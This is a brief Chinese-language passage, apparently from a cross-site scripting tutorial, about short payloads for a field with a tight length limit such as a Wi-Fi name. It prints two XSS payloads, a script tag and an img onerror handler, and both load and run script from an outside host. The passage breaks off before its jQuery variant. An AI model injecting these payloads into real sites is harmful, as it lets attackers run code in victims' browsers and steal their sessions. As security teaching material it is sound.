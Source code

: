 ![enter image description here](img/img11_u40_jpg.jpg)

可以看到 Wi-Fi 当中长度限制的最短。

可使用代码：

```
<script src=//mu.gl></script

```

img 标签的话：

```
<img src onerror=d=document;b=d.createElement(’script’);d.body.appendChild(b);b.src=’http://mu.gl’>

```

如果有使用 jQuery 的话：
